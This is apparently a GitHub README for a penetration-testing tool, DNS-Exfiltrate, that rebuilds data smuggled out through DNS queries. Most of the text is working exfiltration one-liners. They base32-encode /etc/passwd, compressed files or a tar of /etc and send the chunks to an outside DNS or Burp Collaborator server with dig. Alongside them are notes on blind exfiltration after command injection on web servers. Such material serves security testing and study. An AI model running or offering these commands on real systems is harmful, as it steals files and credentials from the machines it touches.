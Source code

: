 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to exfiltrate data. 

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `h6olm71com6vuvx1bsaqddjik9q4et.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS.

Here is the base32-encoded output from `whoami` exfiltrated via Burp Collaborator:

`O53XOLLEMF2GCCQ.h6olm71com6vuvx1bsaqddjik9q4et.oastify.com`

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` adds any missing `=` characters back.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. `base64` does not work due to `/` and `+`.

Thanks to Xavier Mertens for this excellent Internet Storm Center post: https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326

## Use cases (bash):

Note that you will receive more reliable results by specifying the name server via `dig @`...

### Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d
```

### Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked perfectly (but took a while). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the tar archive (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d > exfiltrated.tgz
```

To recover the tar file (on a bind DNS server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d > exfiltrated.tgz
```

